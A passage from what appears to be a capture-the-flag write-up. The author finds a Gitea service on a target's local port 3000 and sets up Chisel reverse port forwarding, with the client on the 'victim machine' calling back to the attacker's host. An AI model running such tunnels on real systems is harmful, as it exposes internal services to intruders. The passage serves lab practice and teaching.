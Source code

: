 I checked for the services running & yes Gitea is there in port 3000 as mentioned in the mail.

I am sure this is clearly a hint for privilege escalation. At this point I am not sure what's that for, lol!

```
Jobert will check if it is a promising service that we can develop.
```

Here Jobert is our another user & maybe to enter into Jobert account maybe? Let's see.

![](/assets/images/Pasted%20image%2020250203054030.png)

![](/assets/images/Pasted%20image%2020250203054142.png)

Let's do port forward. I used Chisel here.

On our machine:

```sh
./chisel server -p 5678 --reverse
```

On victim machine:

```sh
./chisel client 10.10.14.17:5678 R:3000:127.0.0.1:3000
```

![](/assets/images/Pasted%20image%2020250203054834.png)
It's Connected!
